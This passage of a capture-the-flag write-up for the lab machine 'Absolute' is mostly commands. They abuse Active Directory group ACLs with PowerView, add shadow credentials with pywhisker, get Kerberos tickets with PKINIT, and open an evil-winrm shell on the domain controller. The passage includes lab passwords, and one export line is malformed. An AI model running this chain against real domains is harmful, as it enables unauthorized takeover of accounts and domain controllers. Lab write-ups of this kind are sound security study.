 Then I ran these commands:

<pre class="language-powershell"><code class="lang-powershell"><strong>Import-Module .\PowerView.ps1
</strong><strong>$SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
</strong>$Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
<strong>Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
</strong>Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
</code></pre>

You might need to run the last 2 powershell commands again and again until no errors come up. Afterwards, we can switch back to the Kali machine **quickly!** The AD machine seems to reset this change in configurations super fast.

We need to then run this:

{% code overflow="wrap" %}
```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb; export KRB5CCNAME=m.lovegod.ccache; python3 pywhisker.py -d absolute.htb -u "m.lovegod" -k --no-pass -t "winrm_user" --action "add"
```
{% endcode %}

Afterwards, we should get a .pfx file.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Now we have a .pfx file that we can use to get a .ccache file for the `winrm_user`. This can be done with `gettgtpkinit.py`.

{% code overflow="wrap" %}
```bash
python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx pWOtRDep.pfx -pfx-pass 1k8t3aDNsx44g7mTAwY5 winrm_user
export KRB5CCNAME = winrm_user.ccache
evil-winrm -i dc.absolute.htb -r absolute.htb
```
{% endcode %}
